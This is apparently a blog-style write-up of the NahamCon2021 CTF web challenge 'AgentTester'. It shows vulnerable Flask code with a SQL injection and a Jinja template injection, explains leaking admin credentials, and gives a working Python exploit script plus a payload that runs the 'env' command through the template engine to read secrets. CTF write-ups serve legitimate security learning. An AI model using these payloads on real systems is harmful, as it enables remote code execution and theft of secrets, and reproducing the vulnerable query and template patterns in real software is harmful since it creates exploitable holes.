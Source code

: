 ```yaml
---
title: "NahamCon2021 CTF - AgentTester"
date: 2021-03-15T11:26:45+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

web - medium

## solution

We're given an archive to download, `agenttester.zip`. This contained a Dockerfile and a python web application. The files in the archive had many secrets redacted which were set using environment variables. One specifically interesting one was `CHALLENGE_FLAG`, which we could assume was the target value to leak.

The challenge URL dropped us on a page where we need to login. So, create an account, login and land on the home page of the agent tester.

{{< figure src="/images/nahamcon/agent_tester.png" >}}

In burp we'll see that WebSocket requests are being made when we submit an "agent".

{{< figure src="/images/nahamcon/agent_tester_ws.png" >}}

From both playing with the application and the Python source code, we could spot an SQL injection vulnerability.

{{< figure src="/images/nahamcon/agent_tester_sql.png" >}}

```python
query = db.session.execute(
    "SELECT userAgent, url FROM uAgents WHERE userAgent = '%s'" % uAgent
).fetchone()
```

The application also set the admin credentials from environment variables when configuring the web application. Using the SQL injection we found we could try and leak those.

```python
@app.before_first_request
def create_tables():
    db.create_all()

    try:
        user = User(
            username=os.environ.get("ADMIN_BOT_USER"),
            email="admin@admin.com",
            password=os.environ.get("ADMIN_BOT_PASSWORD"),
            about="",
        )
        db.session.add(user)
        db.session.commit()
    except Exception as e:
        print(str(e), flush=True)
```

Thankfully Burp allows for repeating web socket requests, so crafting a payload to disclose the admin user's password is relatively easy. 

{{< figure src="/images/nahamcon/agent_tester_admin_creds.png" >}}

With admin creds, we can now browse to the `/debug` endpoint which was protected by the admin session (session id `1`).

```python
@app.route("/debug", methods=["POST"])
def debug():
    sessionID = session.get("id", None)
    if sessionID == 1:
        code = request.form.get("code", "<h1>Safe Debug</h1>")
        return render_template_string(code)
    else:
        return "Not allowed."
```

The vuln should be relatively obvious here. Jinja's `render_template_string()` is called if we provide a value to `code`. To exploit this template injection I wrote this script.

```python
import requests
import sys

burp0_url = "http://challenge.nahamcon.com:31162/debug"
burp0_cookies = {"auth": "eyJpZCI6MX0.YE44rQ.41KZbUtORmkul0Va5ku_yh-ywn0"}
burp0_headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Referer": "http://challenge.nahamcon.com:31329/",
        "Upgrade-Insecure-Requests": "1"
}

data = {"code": f"{{{{ {sys.argv[1]} }}}}"}

r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=data)
print(r.text)
```

Calling it to run the `env` OS command revealed the flag.

```bash
$ python3 pwn.py "config.__class__.__init__.__globals__['os'].popen('env').read()" | grep CHALLENGE
CHALLENGE_FLAG=flag{fb4a87cfa85cf8c5ab2effedb4ea7006}
CHALLENGE_NAME=AgentTester
```
